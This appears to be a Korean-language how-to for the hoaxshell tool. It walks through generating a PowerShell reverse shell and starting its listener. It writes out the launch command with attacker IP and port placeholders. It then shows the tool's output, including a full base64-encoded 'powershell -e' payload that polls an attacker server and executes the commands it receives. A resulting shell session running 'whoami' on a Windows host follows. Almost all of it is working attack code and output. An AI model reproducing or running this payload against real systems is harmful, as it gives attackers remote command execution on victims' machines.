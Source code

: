 ### 기본 사용법

#### 1. 기본 PowerShell 리버스 셸 페이로드 생성 및 서비스 시작

```bash
sudo python3 hoaxshell.py -s <공격자_IP> -p <공격자_PORT>
```

- `<공격자_IP>` : 공격자(리스너) 서버의 IP 주소
- `<공격자_PORT>` : 공격자(리스너) 서버의 PORT 주소
- 실행 시 페이로드 스크립트가 자동 생성되며, 실행 후 PowerShell 세션을 수립함

**실행 결과**
```bash
┌──(venv)─(kali㉿kali)-[~/Desktop/PNT/hoaxshell/hoaxshell]
└─$ python hoaxshell.py -s <공격자_IP> -p <공격자_PORT>

    ┬ ┬ ┌─┐ ┌─┐ ─┐ ┬ ┌─┐ ┬ ┬ ┌─┐ ┬   ┬  
    ├─┤ │ │ ├─┤ ┌┴┬┘ └─┐ ├─┤ ├┤  │   │  
    ┴ ┴ └─┘ ┴ ┴ ┴ └─ └─┘ ┴ ┴ └─┘ ┴─┘ ┴─┘
                           by t3l3machus

[Info] Generating reverse shell payload...
powershell -e JABzAD0AJwAxADAALgAxAC4AMgAwAC4AMQAwADoAMQAyADMANQAnADsAJABpAD0AJwAxAGQANwBmADgAYwBkADQALQBiADEANwBjADgAMAA2ADQALQBiA
DUANQA4ADAAYQBhADcAJwA7ACQAcAA9ACcAaAB0AHQAcAA6AC8ALwAnADsAJAB2AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEA
cwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8AMQBkADcAZgA4AGMAZAA0ACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADgANQA1AGQALQB
iADIANQA4ACIAPQAkAGkAfQA7AHcAaABpAGwAZQAgACgAJAB0AHIAdQBlACkAewAkAGMAPQAoAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQBzAG
UAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAIAAtAFUAcgBpACAAJABwACQAcwAvAGIAMQA3AGMAOAAwADYANAAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA4ADUAN
QBkAC0AYgAyADUAOAAiAD0AJABpAH0AKQAuAEMAbwBuAHQAZQBuAHQAOwBpAGYAIAAoACQAYwAgAC0AbgBlACAAJwBOAG8AbgBlACcAKQAgAHsAJAByAD0AaQBlAHgAIAAk
AGMAIAAtAEUAcgByAG8AcgBBAGMAdABpAG8AbgAgAFMAdABvAHAAIAAtAEUAcgByAG8AcgBWAGEAcgBpAGEAYgBsAGUAIABlADsAJAByAD0ATwB1AHQALQBTAHQAcgBpAG4
AZwAgAC0ASQBuAHAAdQB0AE8AYgBqAGUAYwB0ACAAJAByADsAJAB0AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACQAcAAkAHMALw
BiADUANQA4ADAAYQBhADcAIAAtAE0AZQB0AGgAbwBkACAAUABPAFMAVAAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA4ADUANQBkAC0AYgAyADUAOAAiAD0AJABpA
H0AIAAtAEIAbwBkAHkAIAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGUA
KwAkAHIAKQAgAC0AagBvAGkAbgAgACcAIAAnACkAfQAgAHMAbABlAGUAcAAgADAALgA4AH0A
Copied to clipboard!
[Info] Type "help" to get a list of the available prompt commands.
[Info] Http Server started on port <공격자_PORT>.
[Important] Awaiting payload execution to initiate shell session...
[Shell] Payload execution verified!
[Shell] Stabilizing command prompt...

PS C:\Users\rdpuser9 > whoami
ec2amaz-jsa0da9\rdpuser9
```
